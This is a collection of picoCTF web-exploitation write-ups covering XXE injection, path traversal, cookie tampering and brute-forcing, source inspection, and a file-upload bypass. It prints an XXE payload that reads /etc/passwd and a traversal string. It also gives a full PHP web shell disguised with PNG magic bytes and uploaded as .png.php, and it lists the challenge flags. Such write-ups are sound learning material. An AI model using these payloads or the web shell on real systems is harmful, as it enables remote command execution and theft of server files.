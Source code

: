 # SOAP
## Problem
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Additional details will be available after launching your challenge instance.
## Thought Process
- Website has some interactive buttons, clicking them sends a request, so I opened the Network Tab to inspect it closely
```html
<form class="detailForm" action="/data" method="POST">
                        <input required="" type="hidden" name="ID" value="1">
                  <button type="submit" class="btn btn-sm
                      btn-outline-secondary">Details</button>
                    </form>
```
- The payload tab seems to imply the existence of some form of xml, which could be exploited by using an XXE (XML External Entity) Injection
- Since we need to use an XXE and modify the payload, I did some research about basic XXE Injections
- To obtain the flag at /etc/passwd, I found this XXE Injection:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
- For some strange reason, any other xxe injection I try on burp suite works but the moment I try the one which should give me `/etc/passwd`, it doesn't work
- I attempted cURLing but it still gives no response, so I am going to have to leave this level on hold for the time being
- Tried again after 2 days, worked this time. Used BurpSuite to intercept and modify the request.
![image](https://github.com/user-attachments/assets/cdd8fa82-bd6f-421c-81e8-98bff1cb3e02)
# Forbidden Paths
## Problem
We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?
## Thought Process
- Provided with a website called Web eReader, which has a form accepting file names.
![image](https://github.com/user-attachments/assets/81357433-e42c-4148-9791-a7cca3b9160a)
- Tried `flag.txt`, wouldn't be that simple if it was a ctf problem.
- since it says that the absolute path is forbidden, we use the relative path. Therefore, it would be `../../../../../flag.txt`
- flag: `picoCTF{7h3_p47h_70_5ucc355_6db46514}`
# Cookies
## Problem
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/
## Thought Process
- Well this should be a walk in the park, the level being marked as easy, and having done a similar question in OasisCTF 2024.
![image](https://github.com/user-attachments/assets/7265b468-71fb-4d8c-b322-c589ebd2d21a)
- Go to the cookies tab, set the value to some 0 or positive value, and reload the page
![image](https://github.com/user-attachments/assets/44594854-3f0a-4ac7-a06f-0ecdf6e24b71)
- On trying a different value, it returns a different message, e.g. I love chocolate chip cookies. So, I think if we keep trying, we might be able to land on the flag.
- We can try a binary search within the first 100 values, but there is no idea of how many cookie values are acceptable.
- So I tried using BurpSuite's intruder feature, which I was trying out on the previous level while trying to comprehend how the software works.
- It basically simplifies the bruteforce as I just have to specify the payload type and range, followed by a grep specification for extraction the flag. It completely removes the need of a script from the process.
- After adding the specification to extract results containing the flag format, I ran the intruder.
![image](https://github.com/user-attachments/assets/85737b18-4dd6-4d89-baed-09779b83a42b)
![image](https://github.com/user-attachments/assets/91fa4e18-ca33-46b0-8207-8c5440dfe72e)
- Set cookie name as payload position hit start attack
- Well, by the look of it, I might have done it on the wrong request, as a result of which, it always returned name=snickerdoodle
- Retrying with the correct request this time,
![image](https://github.com/user-attachments/assets/411eb00d-e628-4e5e-bf89-f98365e81b7d)
- Well, the payload with a 1 under the `picoCTF{` list is the payload which returns the flag.
![image](https://github.com/user-attachments/assets/f11f207d-292d-4ee4-ae21-e5f9a9b68281)
- flag: `picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`
# Trickster
## Problem
- A website is given which accepts a `.png` format file. Question Tag suggests the use of web shell, a common method of cyberattack.
## Thought Process
![image](https://github.com/user-attachments/assets/432a3182-a482-4670-a9a6-569d6075ed9d)
- Did the usual checks, saw the requests, cookies on the inspect element window. Found nothing there, so I proceeded with a check for `/robots.txt`.
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
- Opening `/instructions.txt`
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
- The conditions seem rather vague, since it could accept a `.png.php` file or the first few bytes of a text file could also be set to `PNG` to fool the website into thinking it is a valid upload.
- Using a basic webshell script obtained online, I added PNG before the script and uploaded it to the website as `Untitled.png.php`
```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
- Now, I go to `/uploads/Untitled.png.php`
![image](https://github.com/user-attachments/assets/164629ea-9eea-41f1-971b-8569b0a.71df2)
- I have a web shell which I can use to remotely access the resources
- Checking the `/` directory
- ![image](https://github.com/user-attachments/assets/023aa0b5-3d14-4a6e-aa01-476a44a12d4c)
- checking the contents of various directories, I discovered the path `/var/www/html`
![image](https://github.com/user-attachments/assets/73d5d748-ff2a-47a4-9e24-358d7e2b9205)
- Reading the contents of the `HFQWKODGMIYTO.txt` file
![image](https://github.com/user-attachments/assets/d4beca37-38fc-41df-84e1-9f3584c4d429)
flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}`
# Search Source
## Problem
- The developer of this website mistakenly left an important artifact in the website source. The important artifact could lead us to the flag somehow.
![image](https://github.com/user-attachments/assets/0c95e2a7-bb15-473e-93db-8dd8863c5e31)
- This is the website we are led to.
- Searching for pico in the source code, I found the flag in one of the `.css` files.
  ![image](https://github.com/user-attachments/assets/34faf139-19b7-44c1-9fd3-aee5255fbf54)
flag:`picoCTF{1nsp3ti0n_0f_w3bpag3s_587d12b8}`
# Power Cookie
## Problem
- We are given a website, it has a single button which allows us to continue as guest.
## Thought Process
- Opened the cookies tab, changed `isAdmin` cookie to 1. Reloaded the page and got the flag. Too simple.
![image](https://github.com/user-attachments/assets/7813d06e-98b2-426a-8ba9-2bd5d38b2be7)

flag: `picoCTF{gr4d3_A_c00k13_5d2505be}`
